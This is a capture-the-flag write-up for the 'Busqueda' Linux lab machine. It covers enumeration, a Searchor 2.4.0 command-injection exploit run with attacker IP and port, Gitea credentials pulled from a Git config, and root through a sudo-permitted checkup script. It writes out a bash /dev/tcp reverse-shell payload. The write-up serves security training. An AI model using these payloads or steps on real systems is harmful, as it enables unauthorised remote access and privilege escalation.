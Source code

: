 # Busqueda Easy Linux Machine Write Up

![image](https://github.com/user-attachments/assets/725bea9b-f9af-49ed-875d-b5c702a279fe)


## Machine Description

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user&amp;amp;#039;s `Gitea` account. Further analysis of the system checkup script&amp;amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges. 

## Vulnerability Found

1. Arbitrary CMD Injection in `Searchor` python module version 2.4.0
2. Insecure stored Git credentials on located in the server
3. System checkup script can be executed with root privilege

   
## Step to Re-produce

### Enumeration

### Network Enumeration

I used `nmap` with `-p-, -T5, -O, -oN` tags to enumerate the services that available in the network. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/7c394f87-2128-467f-abaa-fa6b958092a4">
</div>

<div align="center">
  <p><span class="bolded"> Nmap Output</span></p>
</div>
</br>

From the output, I found that this network have 2 open services, ssh on port 22 and http on port 80.

### Web Enumeration

After found out that this network has http service, I looked into it. The interesting one is at the bottom of the page, which was showing what this web powered by.

<div align="center">
  <img src="https://github.com/user-attachments/assets/acbeb47d-8995-4de4-abbc-ebbd2ae335e6">
</div>

<div align="center">
  <p><span class="bolded"> Searchor Version</span></p>
</div>
</br>

As shown the above photo, I knew that this web used **Flask** and **Searchor version 2.4.0**. I was directly searching for the **Searchor** exploit and found out this version of Searchor is vulnerable to Aribitrary CMD Injection in the `eval()` function. I used this PoC: (Searchor Exploit)[https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection].

### Exploitation

In this stage, after finding the exploit for **Searchor 2.4.0**, I followed through the PoC and ran the exploit.sh that provided in the PoC Github. 

Command based on the PoC:

    ./exploit.sh site.com <Your-IP> <Your-Port>

<div align="center">
  <img src="https://github.com/user-attachments/assets/fb4235f6-7edc-4be9-92f7-672df2564429">
</div>

<div align="center">
  <p><span class="bolded"> Running the Script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/858b39ad-1cff-4d12-adad-062cb00b3b46">
</div>

<div align="center">
  <p><span class="bolded"> Gain user-access level</span></p>
</div>
</br>

After gaining access to user-level, I found the cat.txt and read it.

### Privilege Escelation

In this stage, to perform privilege escelation, I found a `.git` folder in the `/var/www/app` directory. In `config` file, I found the url and credentials to login into `Gitea`.

<div align="center">
  <img src="https://github.com/user-attachments/assets/cae3212e-0430-49f6-bedc-1af3edb12bda">
</div>

<div align="center">
  <p><span class="bolded"> Gitea URL and credential</span></p>
</div>
</br>

I tried to looked and logged in into the gitea web but found nothing interesting there (maybe I am not detailed enough). 

I connected into ssh using user `svc` and password that was found earlier(gitea cody's password). I ran `sudo -l` to see what file and command that user `svc` may run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/f1a5dbf8-fc95-4e94-ad9b-a8bc5fe1ce7a">
</div>

<div align="center">
  <p><span class="bolded"> Allowed run as root for svc</span></p>
</div>
</br>

I tried to run the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py *`, following the shown above, I found this:

<div align="center">
  <img src="https://github.com/user-attachments/assets/ce99808b-4860-494c-97f1-4aa0b8bc3623">
</div>

<div align="center">
  <p><span class="bolded"> Choices system checkup</span></p>
</div>
</br>

When I looked into `/opt/script` directory, I found out that it was a directory for a shell script that can be run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/6be8d50f-a6e1-48a3-be1c-5069e746cd4f">
</div>

<div align="center">
  <p><span class="bolded"> Scripts</span></p>
</div>
</br>

It got me thinking for a while. But, I tried to create a new `full-checkup.sh` file in /home/user directory that containing bash command for reverse shell so that when I run it, the bash will be run.

Payload:

    #! /bin/bash bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

I set up a netcat listener and ran the script using the same command like before, the difference was only I didn't use `*` because I chose the `full-checkup` to run the full-checkup script containing reverse shell.

<div align="center">
  <img src="https://github.com/user-attachments/assets/66622d61-360d-4261-981b-b979f18a52f2">
</div>

<div align="center">
  <p><span class="bolded"> Running the script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/a1fb8ba5-d3fe-4c1f-9e6d-65120ab198de">
</div>

<div align="center">
  <p><span class="bolded"> Gaining root access</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/0c124544-0954-4066-8c38-4626b8adab5a">
</div>

<div align="center">
  <p><span class="bolded"> Root.txt</span></p>
</div>
</br>


Thank you for reading!

